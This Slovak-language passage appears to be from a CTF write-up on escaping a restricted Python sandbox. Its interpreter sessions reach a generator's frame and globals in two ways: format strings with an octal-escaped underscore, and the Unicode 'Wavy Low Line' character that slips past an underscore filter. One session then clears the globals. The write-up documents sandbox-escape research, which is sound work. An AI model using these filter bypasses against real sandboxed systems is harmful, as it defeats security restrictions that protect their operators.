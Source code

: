 To sa mi síce podarilo priradiť pod akúkoľvek mnou definovanú premennú čokoľvek, ale stále som dokázal priradiť iba to čo bolo definované (integer, tuple, dictionary, string, referenciu na funkciu(min, max, lambda), ale stále nič potrebné na escape, pretože to nedokážem zavolať...

Ale podarilo sa mi vytvoriť generator objekt, ktorý má sám o sebe prístup k frame, ale pomocou atribútov obsahujúcich `_`..

```
>>> (i for i in [])
<generator object <genexpr> at 0x7f71e6f6d000>
>>> (gen := (i for i in []))
<generator object <genexpr> at 0x7f71e6f6cdc0>
>>> "{0.gi\137frame}".format(gen)
<frame at 0x7f71e6fbcb40, file '<string>', line 1, code <genexpr>>
>>> "{0.gi\137frame.f\137globals}".format(gen)
{'__builtins__': {
  'sin': <built-in function sin>, 
  'cos': <built-in function cos>, 
  'tan': <built-in function tan>, 
  'asin': <built-in function asin>, 
  'acos': <built-in function acos>, 
  'atan': <built-in function atan>, 
  'sqrt': <built-in function sqrt>, 
  'pow': <built-in function pow>, 
  'abs': <built-in function abs>, 
  'round': <built-in function round>, 
  'min': <built-in function min>, 
  'max': <built-in function max>, 
  'sum': <built-in function sum>
}, 
'gen': <generator object <genexpr> at 0x7f71e6f6cdc0>}>
>>> gen.gi_frame
Not allowed, killing

Error: name 'lol' is not defined
```

Tu vidím v `f_glboals` aj mnou vytvorenú premennú gen, takže viem, že som správne... 

https://www.compart.com/en/unicode/U+005f

Avšak podtržník má viacero variantov a zistenie, že unicode variant  môžeme použiť len zo štandradným platí, ale len pre dunder...``gi_frame`` ale nie je dunder. Skúsim napríklad variant `U+FE4F` tzv. Wavy Low Line = `﹏`

```
>>> (gen:=(i for i in[]))
<generator object <genexpr> at 0x7f3bf7608d00>

>>> gen.gi﹏frame
<frame at 0x7f3bf7658b40, file '<string>', line 1, code <genexpr>>

>>> gen.gi﹏frame.f﹏globals
{'__builtins__': {'sin': <built-in function sin>, 'cos': <built-in function cos>, 'tan': <built-in function tan>, 'asin': <built-in function asin>, 'acos': <built-in function acos>, 'atan': <built-in function atan>, 'sqrt': <built-in function sqrt>, 'pow': <built-in function pow>, 'abs': <built-in function abs>, 'round': <built-in function round>, 'min': <built-in function min>, 'max': <built-in function max>, 'sum': <built-in function sum>}, 'gen': <generator object <genexpr> at 0x7f3bf7608d00>}

>>> gen.gi﹏frame.f﹏globals.clear()
None

>>> gen.gi﹏frame.f﹏globals
Error: name 'gen' is not defined

>>> (gen:=(i for i in[]))
```